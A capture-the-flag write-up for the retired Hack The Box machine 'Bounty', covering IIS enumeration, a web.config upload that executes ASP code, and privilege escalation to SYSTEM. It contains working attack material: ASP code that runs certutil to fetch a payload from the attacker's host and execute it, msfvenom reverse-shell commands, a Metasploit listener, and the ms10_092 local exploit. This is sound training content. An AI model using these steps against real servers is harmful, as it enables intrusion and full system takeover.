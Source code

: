 # Bounty

This is the write-up for the box Bounty that got retired at the 27th October 2018.
My IP address was 10.10.14.12 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.93    bounty.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bounty.nmap 10.10.10.93
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

On the web page is an image of "Merlin the Wizard" and nothing interesting in the HTML source code.
Lets search for hidden _aspx_ files with **Gobuster** as this is an IIS Windows server:
```markdown
gobuster -u http://10.10.10.93 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x aspx
```

It finds the path _/uploadedFiles_ and _/transfer.aspx_ where it is possible to upload files.
When uploading an _aspx_ file, it gets blocked but _jpg_ gets uploaded successfully.

Lets send the request to an HTTP proxy like **Burpsuite** to analyze it further.
By creating a list of extensions, we can fuzz which extensions are allowed:
```markdown
Send request to **Intruder** --> Add "§" to the _filename_ parameter --> Set created list of extensions as payload in the _Payload Options_ --> Start Attack
```

![Burpsuite Intruder results](https://kyuu-ji.github.io/htb-write-up/bounty/bounty_web-1.png)

All of the files response back with _HTTP code 200 OK_ but the only one that has a different length is the _config_ extension.
This different length is because it responses with  _"File uploaded successfully"_.

It is possible to [upload a web.config file to gain RCE](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) when adding the ASPX code at the end of the file.
Lets copy the code and upload it to the box:
```markdown
<?xml version="1.0" encoding="UTF-8"?>
(...)
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

Files probably get uploaded to the _/uploadedFiles_ directory:
```markdown
http://10.10.10.93/UploadedFiles/web.config
```

There it shows _"3"_ which means it executed the code in the _web.config_ file and did math, so we got command execution and can upload files by modifying the code.

### Exploiting the web service

Creating a payload with **Msfvenom**:
```markdown
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=9002 -f exe -o msfshell.exe
```

Starting the listener on **Metasploit**:
```markdown
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
msf5 exploit(multi/handler) > set LPORT 9002

msf5 exploit(multi/handler) > run
```

To upload files the Windows binary **certutil** will be used:
```markdown
<?xml version="1.0" encoding="UTF-8"?>
(...)
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("certutil -urlcache -split -f http://10.10.14.12:8000/msfshell.exe C:\\users\\public\\msfshell.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>
-->
```

If the upload is successful, we execute _msfshell.exe_:
```markdown
(...)
Set cmd = rs.Exec("cmd /c C:\users\public\msfshell.exe")
(...)
```

After executing the binary the listener in Metasploit will start a **meterpreter** session. When going into a `shell` and running `whoami`, it shows that this user is _merlin_.

## Privilege Escalation

The command `systeminfo` shows that there are no hotfixes installed, which means that it is possible to exploit any vulnerability.
To check which vulnerability to exploit, there is the _local_exploit_suggester_ from Metasploit:
```markdown
msf5 > use post/multi/recon/local_exploit_suggester

msf5 post(multi/recon/local_exploit_suggester) > set session 1

msf5 post(multi/recon/local_exploit_suggester) > run
```

There are five exploits that can be used to escalate the privileges and I will use **ms10_092_schelevator**:
```markdown
msf5 > use exploit/windows/local/ms10_092_schelevator

msf5 exploit(windows/local/ms10_092_schelevator) > set LHOST tun0
msf5 exploit(windows/local/ms10_092_schelevator) > set session 1

msf5 exploit(windows/local/ms10_092_schelevator) > run
```

After the exploit is done, it starts a session as _NT Authority\SYSTEM_!
